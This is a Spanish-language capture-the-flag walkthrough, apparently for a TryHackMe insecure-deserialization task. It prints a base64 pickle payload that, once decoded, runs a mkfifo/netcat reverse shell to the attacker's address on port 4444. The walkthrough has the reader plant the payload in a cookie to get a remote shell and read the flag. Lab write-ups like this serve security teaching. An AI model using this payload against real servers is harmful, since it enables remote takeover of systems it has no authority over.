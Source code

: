 Una vez que esto esté completo, [copie y pegue el código fuente de esta página de Github](https://gist.github.com/CMNatic/af5c19a8d77b4f5d8171340b9c560fc3) en su kali y modifique el código fuente para reemplazar su "YOUR_TRYHACKME_VPN_IP" con su IP de TryHackMe VPN. [Esto se puede obtener a través de la página de Acceso](https://tryhackme.com/access) .

1. Cree un archivo python para pegarlo, he usado "rce.py" para estos ejemplos:

[![](https://user-content.gitlab-static.net/be4090a5ff222456b41c736e7ce869504946208f/68747470733a2f2f692e696d6775722e636f6d2f6b393370617a4d2e706e67)](https://user-content.gitlab-static.net/be4090a5ff222456b41c736e7ce869504946208f/68747470733a2f2f692e696d6775722e636f6d2f6b393370617a4d2e706e67)

2. Pegue el código del sitio de GitHub, reemplazando YOUR_TRYHACKME_VPN_IP con su TryHackMe VPN IP de la página de acceso

[![](https://user-content.gitlab-static.net/d38e2e5a99147b71ced3dc6005d88bc83e565e42/68747470733a2f2f692e696d6775722e636f6d2f676652326c63662e706e67)](https://user-content.gitlab-static.net/d38e2e5a99147b71ced3dc6005d88bc83e565e42/68747470733a2f2f692e696d6775722e636f6d2f676652326c63662e706e67)

3. Ejecute "rce.py" a través de`python3 rce.py`
4. Tenga en cuenta la salida del comando, se verá algo similar a esto:

[![](https://user-content.gitlab-static.net/223b41263dd5fd0b3ffe01b0738b90c146379933/68747470733a2f2f692e696d6775722e636f6d2f36374f5562774e2e706e67)](https://user-content.gitlab-static.net/223b41263dd5fd0b3ffe01b0738b90c146379933/68747470733a2f2f692e696d6775722e636f6d2f36374f5562774e2e706e67)

5. Copie y pegue todo lo que esté entre las dos marcas de voz ('DATA'). En mi caso voy a copiar y pegar:

`gASVcgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjFdybSAvdG1wL2Y7IG1rZmlmbyAvdG1wL2Y7IGNhdCAvdG1wL2YgfCAvYmluL3NoIC1pIDI+JjEgfCBuZXRjYXQgMTAuMTEuMy4yIDQ0NDQgPiAvdG1wL2aUhZRSlC4=`

El suyo puede verse ligeramente diferente, solo asegúrese de copiar todo lo que se encuentre entre las dos marcas de voz.`''`

6. Pegue esto en la cookie "encodedPayload" en su navegador:

[![](https://user-content.gitlab-static.net/76de79e78f101136b78365886afd1186c08f5408/68747470733a2f2f692e696d6775722e636f6d2f665a4461796a442e706e67)](https://user-content.gitlab-static.net/76de79e78f101136b78365886afd1186c08f5408/68747470733a2f2f692e696d6775722e636f6d2f665a4461796a442e706e67)

7. Asegúrese de que nuestro oyente netcat todavía se esté ejecutando:
8. Recarga la página. Se colgará, vuelva a consultar a su oyente de netcat:

[![](https://user-content.gitlab-static.net/9274bf6833014c3b47768b74081de5d91677c626/68747470733a2f2f692e696d6775722e636f6d2f574553546167542e706e67)](https://user-content.gitlab-static.net/9274bf6833014c3b47768b74081de5d91677c626/68747470733a2f2f692e696d6775722e636f6d2f574553546167542e706e67)

Si ha realizado los pasos correctamente, ahora tendrá un shell remoto para su instancia. No hay escalada de privilegios involucrada, ¡busque la bandera flag.txt!

1. bandera.txt

```
cat /home/cmnatic/flag.txt
```

`4a69a7ff9fd68`

## [](#day-9-components-with-known-vulnerabilities-explan)[Día 9] Componentes con vulnerabilidades conocidas: explicación...
